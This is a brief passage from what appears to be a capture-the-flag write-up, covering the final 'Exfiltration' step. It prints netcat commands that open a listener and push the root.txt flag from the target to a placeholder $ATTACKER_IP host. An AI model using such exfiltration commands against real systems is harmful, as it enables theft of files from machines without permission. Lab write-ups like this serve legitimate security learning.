 ## **Exfiltration**

Navigating to the `/root` directory grants access to the `root.txt` flag. The next step involves exfiltrating the root flag to the local machine.

A listener is established on the receiving host to capture the flag.

`nc -l -p 8888 > root.txt`

From the target machine, the flag is transferred to the attacker.

`nc -w 3 $ATTACKER_IP 8888 < root.txt`

---

---

---

Resources: official and non-official write-ups, Google search, ChatGPT
